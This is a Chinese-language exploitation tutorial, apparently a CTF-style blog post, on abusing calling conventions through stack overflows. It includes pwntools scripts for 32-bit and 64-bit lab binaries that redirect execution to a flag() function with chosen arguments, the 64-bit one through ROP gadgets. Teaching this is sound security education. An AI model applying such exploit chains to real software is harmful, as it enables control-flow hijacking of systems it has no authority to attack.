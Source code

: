 ```yaml
---
title: '攻击调用约定'
date: '2023-08-11'
lastmod: '2023-08-18'
tags: ['PWN', 'Stack']
draft: false
summary: '利用调用约定'
authors: ['default']
---
```


LINK

## 0x01 32-bit

程序期望在执行函数之前栈是这样的布局：

<center>
  <img src="https://s1.ax1x.com/2023/08/11/pPn3RoV.png" />
</center>

那么我们为什么不这样提供呢？除了函数之外，我们还传递返回地址和参数：

<center>
  <img src="https://s1.ax1x.com/2023/08/11/pPn3hJU.png" />
</center>

`flag()` 地址之后的所有内容都将成为下一个函数的栈帧的一部分，因为它 **预期** 在那里
——只是我们没有使用 `push` 指令，而是手动覆盖它们。

```python:exp.py
from pwn import *

context(os='linux', arch='amd64', log_level='info')

p = process('./vuln-32')

payload = b'A' * 52         # Padding 到 EIP
payload += p32(0x080491c7)  # flag() 的地址
payload += p32(0x0)         # 避免异常
payload += p32(0xdeadc0de)  # 第一个参数
payload += p32(0xc0ded00d)  # 第二个参数

p.sendline(payload)

p.interactive()
```

## 0x02 64-bit

相同的逻辑，只不过我们必须利用之前讨论过的 gadgets 来填充所需的寄存器（在本例中为
`rdi` 和 `rsi` ，因为我们有两个参数）。

我们必须在 *调用函数之前* 填充寄存器：

```python:exp.py
from pwn import *

context(os='linux', arch='amd64', log_level='info')

p = process('./vuln-64')

POP_RDI, POP_RSI_R15 = 0x4011fb, 0x4011f9

payload = b'A' * 56          # Padding 到 RIP
payload += p64(POP_RDI)      # pop rdi ; ret
payload += p64(0xdeadc0de)   # 进入 rdi 的值 - 第一个参数
payload += p64(POP_RSI_R15)  # pop rsi ; pop r15 ; ret
payload += p64(0xc0ded00d)   # 进入 rsi 的值 - 第二个参数
payload += p64(0x0)          # 进入 r15 的值 - 避免异常
payload += p64(0x40116f)     # flag() 的地址
payload += p64(0x0)          # 避免异常

p.sendline(payload)

p.interactive()
```

:::info
在返回地址后面加 0 本质是为了让程序有个返回的地方，防止异常，不然会返回到下面
奇奇怪怪的东西；有时候也可能是栈对齐，64-bit 程序执行 `system` 时会有一个检查，
确保栈指针是指着 0 的（结尾是 0），没有对齐的话就不能执行。

通常 0 可以替换为任意值，效果是一样的。只是习惯加 0。
:::

